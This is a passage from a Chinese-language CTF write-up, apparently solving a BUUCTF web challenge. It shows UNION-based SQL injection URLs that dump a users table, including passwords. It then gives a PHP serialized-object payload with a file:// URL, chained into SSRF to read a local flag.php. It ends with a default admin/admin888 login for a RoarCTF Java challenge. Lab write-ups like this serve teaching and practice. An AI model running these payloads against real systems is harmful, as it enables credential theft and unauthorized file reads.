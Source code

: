```
http://9bc3b55a-fc52-4df4-93b7-080bf0dbc873.node4.buuoj.cn:81/view.php?no=-1 union  select 1,2,3,4
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208251038677.png)

报错信息里有 unserialize(), 猜测可能对 sql 查询的某个结果进行了反序列化

继续注入看看

```
http://9bc3b55a-fc52-4df4-93b7-080bf0dbc873.node4.buuoj.cn:81/view.php?no=-1 union  select 1,group_concat(no,',',username,',',passwd,',',data),3,4 from users
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208251043444.png)

data 里是序列化后的个人信息, 结合之前得到的 user.php.bak 文件

思路应该是通过反序列化构造一个 ssrf, 然后利用 file:// 协议读取本地的 flag.php

不过注册的时候输入不了除 http https 之外的协议, 所以只能从这个 sql 注入下手

payload

```php
<?php

class UserInfo
{
    public $name = "1";
    public $age = 1;
    public $blog = "file:///var/www/html/flag.php";

}

echo serialize(new UserInfo());
```

利用 union 的特性

```
http://9bc3b55a-fc52-4df4-93b7-080bf0dbc873.node4.buuoj.cn:81/view.php?no=-1 union  select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:1:"1";s:3:"age";i:1;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208251046930.png)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208251046785.png)

## [RoarCTF 2019]Easy Java

java 的题

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208251053743.png)

admin admin888 登录
